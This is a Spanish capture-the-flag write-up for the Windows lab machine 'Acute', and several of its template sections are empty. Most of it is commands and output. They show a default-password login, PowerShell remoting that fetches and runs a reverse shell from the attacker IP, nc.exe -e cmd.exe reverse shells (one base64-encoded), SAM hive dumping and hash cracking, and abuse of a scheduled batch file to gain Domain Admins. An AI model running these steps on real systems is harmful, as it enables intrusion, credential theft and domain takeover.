

# Acute

## Tabla de Contenido <!-- omit from toc -->

- [Acute](#acute)
  - [Introducción](#introducción)
    - [Técnicas vistas / Tags](#técnicas-vistas--tags)
    - [Estadísticas](#estadísticas)
  - [Reconocimiento](#reconocimiento)
    - [Escaneo de host](#escaneo-de-host)
      - [Escaneo completo de puertos](#escaneo-completo-de-puertos)
      - [Escaneo específico](#escaneo-específico)
  - [Enumeración](#enumeración)
    - [Servicios](#servicios)
      - [Nombre de servicio - Puerto](#nombre-de-servicio---puerto)
        - [Manual](#manual)
        - [Nombre de herramienta](#nombre-de-herramienta)
  - [Explotación](#explotación)
    - [Tipo de explotación](#tipo-de-explotación)
      - [Pasos previos | Preparación](#pasos-previos--preparación)
      - [Ejecución](#ejecución)
  - [Post Explotación](#post-explotación)
    - [Enumeración](#enumeración-1)
    - [Escalación de privilegios](#escalación-de-privilegios)
  - [Conclusión](#conclusión)
  - [Notas adicionales](#notas-adicionales)
  - [Referencias](#referencias)


## Introducción

### Técnicas vistas / Tags

- Técnica 1
- Técnica 2
- Técnica 3

### Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [Acute]() |
| OS | Windows |
| Dificultad oficial | Hard |
| Dificultad de comunidad |  |
| Puntos | 40 |
| Creadores | [Creator]() |

## Reconocimiento

### Escaneo de host

#### Escaneo completo de puertos

```bash
└─$ sudo nmap -sS -p- -v -open -n -Pn -oG nmap/all_ports_ss $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-15 09:56 EDT
Initiating SYN Stealth Scan at 09:56
Scanning 10.10.11.145 [65535 ports]
Discovered open port 443/tcp on 10.10.11.145
SYN Stealth Scan Timing: About 6.76% done; ETC: 10:03 (0:07:07 remaining)
SYN Stealth Scan Timing: About 30.64% done; ETC: 09:59 (0:02:18 remaining)
SYN Stealth Scan Timing: About 63.64% done; ETC: 09:58 (0:00:52 remaining)
Completed SYN Stealth Scan at 09:57, 119.20s elapsed (65535 total ports)
Nmap scan report for 10.10.11.145
Host is up (0.079s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
443/tcp open  https

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 119.25 seconds
           Raw packets sent: 131154 (5.771MB) | Rcvd: 86 (3.784KB)
```

#### Escaneo específico

```bash
└─$ nmap -sCV -p 443 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-15 10:01 EDT
Nmap scan report for 10.10.11.145
Host is up (0.075s latency).

PORT    STATE SERVICE  VERSION
443/tcp open  ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=atsserver.acute.local
| Subject Alternative Name: DNS:atsserver.acute.local, DNS:atsserver
| Not valid before: 2022-01-06T06:34:58
|_Not valid after:  2030-01-04T06:34:58
|_ssl-date: 2023-05-15T14:01:44+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.29 seconds
```

## Enumeración

### Servicios

#### Nombre de servicio - Puerto

##### Manual

```
Aileen Wallace
Charlotte Hall
Evan Davies
Ieuan Monks
Joshua Morgan
Lois Hopkins

AWallace
CHall
EDavies
IMonks
JMorgan
LHopkins

Password1!
```


##### Nombre de herramienta


## Explotación

### Tipo de explotación

#### Pasos previos | Preparación

```bash
└─$ exiftool New_Starter_CheckList_v7.docx
ExifTool Version Number         : 12.57
File Name                       : New_Starter_CheckList_v7.docx
Directory                       : .
File Size                       : 35 kB
File Modification Date/Time     : 2021:12:21 19:39:10-05:00
File Access Date/Time           : 2023:05:15 10:59:54-04:00
File Inode Change Date/Time     : 2023:05:15 10:59:38-04:00
File Permissions                : -rw-r--r--
File Type                       : DOCX
File Type Extension             : docx
MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document
Zip Required Version            : 20
Zip Bit Flag                    : 0x0006
Zip Compression                 : Deflated
Zip Modify Date                 : 1980:01:01 00:00:00
Zip CRC                         : 0x079b7eb2
Zip Compressed Size             : 428
Zip Uncompressed Size           : 2527
Zip File Name                   : [Content_Types].xml
Creator                         : FCastle
Description                     : Created on Acute-PC01
Last Modified By                : Daniel
Revision Number                 : 8
Last Printed                    : 2021:01:04 15:54:00Z
Create Date                     : 2021:12:08 14:21:00Z
Modify Date                     : 2021:12:22 00:39:00Z
Template                        : Normal.dotm
Total Edit Time                 : 2.6 hours
Pages                           : 3
Words                           : 886
Characters                      : 5055
Application                     : Microsoft Office Word
Doc Security                    : None
Lines                           : 42
Paragraphs                      : 11
Scale Crop                      : No
Heading Pairs                   : Title, 1
Titles Of Parts                 :
Company                         : University of Marvel
Links Up To Date                : No
Characters With Spaces          : 5930
Shared Doc                      : No
Hyperlinks Changed              : No
App Version                     : 16.0000
```

#### Ejecución

https://atsserver.acute.local/Acute_Staff_Access

```bash
EDavies:Password1!
```

## Post Explotación

### Enumeración


### Escalación de privilegios



```powershell
$userName = 'imonks'
$userPassword = 'W3_4R3_th3_f0rce.'
$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
$credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)

Invoke-Command -ComputerName ATSSERVER -Credential $credObject -ConfigurationName dc_manage -ScriptBlock { IEX(New-Object Net.webClient).downloadString('http://10.10.16.4/Invoke-PowerShellTcp.ps1') }
```

```powershell
PS C:\Users\edavies\Documents> Invoke-Command -ComputerName ATSSERVER -Credential $credObject -ConfigurationName dc_manage -ScriptBlock { type c:\users\imonks\desktop\wm.ps1 }

$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)

Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```

```powershell
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51';
$passwd = $securepasswd | ConvertTo-SecureString;
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd);
Invoke-Command -ScriptBlock {c:\utils\nc.exe -e cmd.exe 10.10.16.4 1234} -ComputerName Acute-PC01 -Credential $creds

Invoke-Command -ComputerName ATSSERVER -Credential $credObject -ConfigurationName dc_manage -ScriptBlock { Set-Content -Path c:\users\imonks\desktop\wm.ps1 -Value ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('JHNlY3VyZXBhc3N3ZCA9ICcwMTAwMDAwMGQwOGM5ZGRmMDExNWQxMTE4YzdhMDBjMDRmYzI5N2ViMDEwMDAwMDA5NmVkNWFlNzZiZDBkYTRjODI1YmRkOWYyNDA4M2U1YzAwMDAwMDAwMDIwMDAwMDAwMDAwMDM2NjAwMDBjMDAwMDAwMDEwMDAwMDAwODBmNzA0ZTI1MTc5M2Y1ZDRmOTAzYzcxNThjODIxM2QwMDAwMDAwMDA0ODAwMDAwYTAwMDAwMDAxMDAwMDAwMGFjMjYwNmNjZmRhNmI0ZTBhOWQ1NmEyMDQxN2QyZjY3MjgwMDAwMDA5NDk3MTQxYjc5NGM2Y2I5NjNkMjQ2MGJkOTZkZGNlYTM1YjI1ZmYyNDhhNTNhZjA5MjQ1NzJjZDNlZTkxYTI4ZGJhMDFlMDYyZWYxYzAyNjE0MDAwMDAwMGY2NmY1Y2VjMWIyNjQ0MTFkOGEyNjNhMmNhODU0YmM2ZTQ1M2M1MSc7CiRwYXNzd2QgPSAkc2VjdXJlcGFzc3dkIHwgQ29udmVydFRvLVNlY3VyZVN0cmluZzsKJGNyZWRzID0gTmV3LU9iamVjdCBTeXN0ZW0uTWFuYWdlbWVudC5BdXRvbWF0aW9uLlBTQ3JlZGVudGlhbCAoImFjdXRlXGptb3JnYW4iLCAkcGFzc3dkKTsKSW52b2tlLUNvbW1hbmQgLVNjcmlwdEJsb2NrIHtjOlx1dGlsc1xuYy5leGUgLWUgY21kLmV4ZSAxMC4xMC4xNi40IDQ0M30gLUNvbXB1dGVyTmFtZSBBY3V0ZS1QQzAxIC1DcmVkZW50aWFsICRjcmVkcw=='))) }

Invoke-Command -ComputerName ATSSERVER -Credential $credObject -ConfigurationName dc_manage -ScriptBlock { type c:\users\imonks\desktop\wm.ps1 }

Invoke-Command -ComputerName ATSSERVER -Credential $credObject -ConfigurationName dc_manage -ScriptBlock { c:\users\imonks\desktop\wm.ps1 }
```

```powershell
reg save hklm\sam c:\utils\sam
reg save hklm\system c:\utils\system
```

```bash
└─$ impacket-secretsdump -sam sam -system system LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x44397c32a634e3d8d8f64bff8c614af7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
[*] Cleaning up...


└─$ john --wordlist=/usr/share/wordlists/rockyou.txt administrator.hash --format=NT
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
Password@123     (Administrator)
1g 0:00:00:00 DONE (2023-05-18 01:23) 25.00g/s 26107Kp/s 26107Kc/s 26107KC/s Paulus..Paige14
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.
```

```powershell
$userName = 'awallace'
$userPassword = 'Password@123'
$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
$credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)
```

```powershell
PS C:\Users\edavies\Documents> Invoke-Command -ComputerName ATSSERVER -Credential $credObject -ConfigurationName dc_manage -ScriptBlock { type 'c:\Program Files\keepmeon\keepmeon.bat' }
REM This is run every 5 minutes. For Lois use ONLY
@echo off
 for /R %%x in (*.bat) do (
 if not "%%x" == "%~0" call "%%x"
)
```

```powershell
PS C:\Users\edavies\Documents> Invoke-Command -ComputerName ATSSERVER -Credential $credObject -ConfigurationName dc_manage -ScriptBlock { Get-Command }

CommandType     Name                                               Version    Source               PSComputerName      
-----------     ----                                               -------    ------               --------------      
Cmdlet          Get-Alias                                          3.1.0.0    Microsoft.PowerSh... ATSSERVER
Cmdlet          Get-ChildItem                                      3.1.0.0    Microsoft.PowerSh... ATSSERVER
Cmdlet          Get-Command                                        3.0.0.0    Microsoft.PowerSh... ATSSERVER
Cmdlet          Get-Content                                        3.1.0.0    Microsoft.PowerSh... ATSSERVER
Cmdlet          Get-Location                                       3.1.0.0    Microsoft.PowerSh... ATSSERVER
Cmdlet          Set-Content                                        3.1.0.0    Microsoft.PowerSh... ATSSERVER
Cmdlet          Set-Location                                       3.1.0.0    Microsoft.PowerSh... ATSSERVER
Cmdlet          Write-Output                                       3.1.0.0    Microsoft.PowerSh... ATSSERVER
```

```powershell
PS C:\Users\edavies\Documents> Invoke-Command -ComputerName ATSSERVER -Credential $credObject -ConfigurationName dc_manage -ScriptBlock { Set-Content -Path 'c:\Program Files\keepmeon\test.bat' -Value 'Hello world' }
PS C:\Users\edavies\Documents> Invoke-Command -ComputerName ATSSERVER -Credential $credObject -ConfigurationName dc_manage -ScriptBlock { type 'c:\Program Files\keepmeon\test.bat' }
Hello world
```

```powershell
# net group Site_Admin imonks /ADD
PS C:\Users\edavies\Documents> Invoke-Command -ComputerName ATSSERVER -Credential $credObject -ConfigurationName dc_manage -ScriptBlock { Set-Content -Path 'c:\Program Files\keepmeon\test.bat' -Value ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('bmV0IGdyb3VwIFNpdGVfQWRtaW4gaW1vbmtzIC9BREQ='))) }
PS C:\Users\edavies\Documents> Invoke-Command -ComputerName ATSSERVER -Credential $credObject -ConfigurationName dc_manage -ScriptBlock { type 'c:\Program Files\keepmeon\test.bat' }
net group Site_Admin imonks /ADD
```

Después de esperar...

```powershell
PS C:\Users\edavies\Documents> Invoke-Command -ComputerName ATSSERVER -Credential $credObject -ConfigurationName dc_manage -ScriptBlock { net user imonks }
User name                    imonks
Full Name                    Ieuan Monks
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            21/12/2021 15:51:31
Password expires             Never
Password changeable          22/12/2021 15:51:31
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   19/05/2023 04:55:45

Logon hours allowed          All

Local Group Memberships      
Global Group memberships     *Domain Users         *Managers
                             *Site_Admin
The command completed successfully.
```

```powershell
PS C:\Users\edavies\Documents> $userName = 'imonks'
$userPassword = 'W3_4R3_th3_f0rce.'
$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
$credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)

PS C:\Users\edavies\Documents> Invoke-Command -ComputerName ATSSERVER -Credential $credObject -ConfigurationName dc_manage -ScriptBlock { net group 'Domain Admins' imonks /ADD /DOMAIN }
The command completed successfully.

PS C:\Users\edavies\Documents> Invoke-Command -ComputerName ATSSERVER -Credential $credObject -ConfigurationName dc_manage -ScriptBlock { net user imonks }
User name                    imonks
Full Name                    Ieuan Monks
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            21/12/2021 15:51:31
Password expires             Never
Password changeable          22/12/2021 15:51:31
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   19/05/2023 05:04:19

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Admins        *Domain Users
                             *Managers             *Site_Admin
The command completed successfully.

PS C:\Users\edavies\Documents> Invoke-Command -ComputerName ATSSERVER -Credential $credObject -ConfigurationName dc_manage -ScriptBlock { ls -force c:\users\administrator\desktop }

    Directory: C:\users\administrator\desktop

Mode                 LastWriteTime         Length Name                               PSComputerName
----                 -------------         ------ ----                               --------------
-a-hs-         1/12/2022   4:35 PM            282 desktop.ini                        ATSSERVER
-ar---         5/19/2023   3:28 AM             34 root.txt                           ATSSERVER
```

## Conclusión


## Notas adicionales


## Referencias

